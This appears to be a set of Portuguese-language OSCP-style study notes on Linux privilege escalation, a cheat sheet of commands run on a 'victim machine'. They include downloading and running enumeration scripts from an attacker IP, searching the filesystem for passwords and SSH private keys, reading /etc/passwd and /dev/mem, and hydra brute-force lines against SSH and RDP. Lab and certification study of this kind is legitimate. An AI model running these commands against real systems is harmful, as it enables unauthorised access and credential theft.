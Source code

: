 Linux PrivEsc
========================

Seguindo o a mesma premissa do windows, vamos verificar primeiramente o kernel e em sequência gente pode olhar alguns diretórios logo de cara:

## Kernel exploitation

<https://gabb4r.gitbook.io/oscp-notes/linux-post-exploitation/kernel-exploitation>

    wget http://10.10.14.17/4-privilege_escalation/les.sh
    chmod +x les.sh
    ./les.sh

    cat /etc/issue
    
    cat /etc/*-release
    
    uname -a
  
    cat /proc/version

Algo importante aqui na hora de escalar privilégios no sistema:

**Considerar a compilação para sistemas 32 bits**

https://www.geeksforgeeks.org/compile-32-bit-program-64-bit-gcc-c-c/

## CheckHistory

    history

## Navegar nos diretórios

    ls -al /usr/local/
    ls -al /usr/local/src
    ls -al /usr/local/bin
    ls -al /opt/
    ls -R -al /home #Fazer recursivamente neste
    ls -al /var/
    ls -al /usr/src/

OS COMANDOS AQUI SÃO EXECUTADOS TODOS NA MÁQUINA VÍTIMA

## Enumerate Users

    cat /etc/passwd
    #non-system users
    awk -F: '($3>=1000)&&($1!="nobody"){print $1}' /etc/passwd

## SUID e SGID

Com isso podemos executar o arquivo (caso seja um executável) conforme a permissão do dono do arquivo. Ou seja, se o dono do arquivo for root e o SUID bit estiver definido para o binário, podemos realizar a escalação de privilégio.

    find / -perm -u=s -type f 2>/dev/null
    find / -perm -g=s -type f 2>/dev/null

## LinEnum

https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh

    wget http://10.10.14.17/linux/4-privilege_escalation/LinEnum.sh -O linenum.sh
    chmod +x linenum.sh
    ./lieneum.sh

ou 

https://raw.githubusercontent.com/bngr/OSCP-Scripts/master/bangenum.sh

## bangenum

è um resumo do LinEnum.sh

    wget http://10.10.14.17/4-privilege_escalation/bangenum.sh
    sed -i -e 's/\r$//' bangenum.sh
    chmod +x bangenum.sh
    ./bangenum.sh

## Local services

    netstat -nao

### Network information

    ip a
    ifconfig
    route
    routel
    ip route
    
    netstat -napl
    netstat -naptl
    
    ss -anp

## Crontab (Serviços agendados)

    crontab -l
    cat /etc/crontab
    ls -lah /etc/cron* 

## Process Enumeration

< https://github.com/DominicBreuker/pspy>

    wget http://10.10.14.17/4-privilege_escalation/pspy32
    #ou
    wget http://10.10.14.17/4-privilege_escalation/pspy64
    chmod +x pspy64
    ./pspy64
    


## ReusedPassword

Tentar usuário e senha sendo o mesmo com hydra, por exemplo

    hydra -L user.txt -P user.txt 10.10.10.10 ssh
    hydra -L users.txt -P users.txt rdp://10.10.10.10

Tentar senha de um usuário para outro também e rockyou

## Credentials from config files

Procurar a string PASSWORD ou password dentro de arquivos

    grep -rnw / -e 'password\|pass\|creds\|senha\|credentials' 2>/dev/null -i

    find . -type f -exec grep -i -I "PASSWORD" {} /dev/null \;

    grep --color=auto -rnw '/' -ie "PASSWORD" --color=always 2> /dev/null

### SensitiveFileContent

    grep --color=auto -rnw '/' -ie "PASSWORD" --color=always 2> /dev/null
    
    
Nesse caso e interessante considerar que o diretorio que busco as informacoes e um diretorio de configuracoes de aplicacoes '/etc':

    grep --color=auto -rnw '/etc' -ie "PASSWORD" --color=always 2> /dev/null

In memory passwords
    
    strings /dev/mem -n10 | grep -i PASS


Generally, source code with hard coded credentials. Searcvh for php files, for examplo

## Credentials from local databases

Dump de credenciais do banco de dados

## Sudo access

    sudo -i
    sudo su
    sudo -
    
    # Este temos de verificar os binários que podemos executar com permissão de root
    sudo -l

## SSH keys

    find / -name authorized_keys 2> /dev/null

    find / -name id_rsa 2> /dev/null

## Binary exploitation

User Installed Software
Has the user installed some third party software that might be vulnerable? Check it out. If you find anything google it for exploits.

Common locations for user installed software

    /usr/local/
    /usr/local/src
    /usr/local/bin
    /opt/
    /home
    /var/
    /usr/src/

Debian

    dpkg -l

CentOS, OpenSuse, Fedora, RHEL

    rpm -qa (CentOS / openSUSE )

OpenBSD, FreeBSD

    pkg_info


## Enumerate writable/readable

    find / -writable -type d 2>/dev/null


### Enumerate unmounted disks

    cat /etc/fstab 
    mount
    /bin/lsblk

## PATH Hijack
 
 Vide máquina [Pandora](Pandora.md#PrivEsc)